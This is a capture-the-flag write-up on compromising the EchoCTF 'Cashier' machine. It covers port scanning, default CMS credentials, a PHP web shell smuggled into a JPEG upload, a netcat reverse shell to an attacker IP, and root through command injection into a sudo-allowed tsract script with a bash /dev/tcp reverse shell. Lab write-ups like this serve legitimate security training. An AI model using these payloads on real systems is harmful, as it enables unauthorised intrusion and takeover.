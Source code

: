 # Cashier Writeup  for EchoCTF

In this writeup, we will be walking through the steps to exploit a vulnerable CMS and escalate privileges to root on Cashier in EchoCTF.

### Step One: Port Discovery

We use [Nmap](https://nmap.org/) to scan the open ports 

```
nmap -p1-10000 -sCV -n -Pn -v [TARGET_IP] 
```

*p1-10000: Scans ports 1 through 10,000.
sCV: Combines service detection (-sV) with default script scans (-sC) to enumerate service versions and vulnerabilities.
n: Skips DNS resolution for faster scanning.
Pn: Treats the target as online without pinging, useful for firewalled hosts.*


![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/nmap%20result1.png)

We see port **22** (SSH) and port **80** (HTTP)

### Step Two: Getting In

We visit the http website (port 80)
We are prompted to the login page for the CMS

```
http://[TARGET_IP]/login.php
```

Now, we need to find the default username and password for the cms which is easy through a quick online search *(or brute force it, but in this situation it is not needed)*

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/loginSukses.png)



After finding the login credentials and logging into the CMS, we go to the profile section

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile1.png)

`http://[TARGET_IP]/index.php?page=user`

#### Step Three: Exploit the CMS

Then, we need to open [BurpSuite](https://portswigger.net/burp)

Select a JPEG image ***(The image has to be JPEG, PNG won't work in this scenario)*** and insert it.

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile2.png)

Capture the upload request that is sent by clicking **Ganti Foto**.

Insert a php script into your image that will enable you to get a reverse shell.  
For example:

```php
 <?php system ($_GET['cmd']) ?>
 ```
 or

 ```php
 <?php passthru($_GET['cmd']); __halt_compiler(); ?>
 ```

It should look something like this

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/get%20cmd%20shell.png)

After this, we should see that our image has actually been uploaded to the server

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/success-edit-data.png)

Another indicator that the image has been successfully uploaded will be seeing this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/proof%20that%20shell%20is%20uploaded.png)

***The image will be stored with a random number before the name we set, so to find it we need to inspect the page  (Ctrl+Shift+C)***

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/shell%20location.png)

Now, we need to set up a reverse shell, which is done like this:

Open the bash console and type

```nc -nlvp [YOUR_PORT]```

Then, in the url of the image (*which can be copy+pasted from the page source*), we insert this payload to get a reverse shell    

` cmd= nc -e /bin/bash [YOUR_IP] [YOUR_PORT]`

After we've successfully created a reverse shell, we need to see how we can escalate our privileges to root.

### Step Four: Getting Root

if we run 
`sudo -l`

the server returns a script

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/sudoL.png)

Searching online for a tsract (tesseract) exploit, we find that it is vulnerable to arbitrary code execution via the child_process function due to improper input sanitization.
We can leverage this for privilege escalation.

I wrote a simple bash script for this:

`sudo /usr/local/bin/tsract "; bash -c 'bash -i >& /dev/tcp/[YOUR_IP]/[YOUR_PORT] 0>&1'; #"`

***The underlying cause of the vulnerability can be researched further online for detailed technical insights. TL;DR is that the package uses child_process (e.g., exec() or spawn()) to execute Tesseract commands. It appends the image filename provided by the user directly to the command without sanitization.***

The script basically creates a new connection to our machine as root, so we use [netcat](https://netcat.sourceforge.net/) to do this, in a similar fashion to how we did before.

In the new netcat window, we should see a connection like this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/root.png)

And we have root! 

### Final Thoughts

This challenge highlighted the importance of understanding how misconfigurations and input sanitization flaws can expose systems to serious risks. By systematically identifying vulnerabilities, and leveraging known exploits, we were able to gain root access on the target system.
From a defensive standpoint, implementing strong security practices such as restricting permissions, sanitizing inputs, and disabling unnecessary services, can greatly reduce the attack surface.

While this challenge was completed in a controlled environment, similar techniques could have devastating effects on real-world systems. Ethical hacking and responsible disclosure are key to ensuring such vulnerabilities are mitigated before they are exploited by malicious actors.

PS: 
```
[YOUR_IP]= Your VPN IP 
[YOUR_PORT]= Custom port to use for netcat
[TARGET_IP]= IP of the machine you are hacking 
```
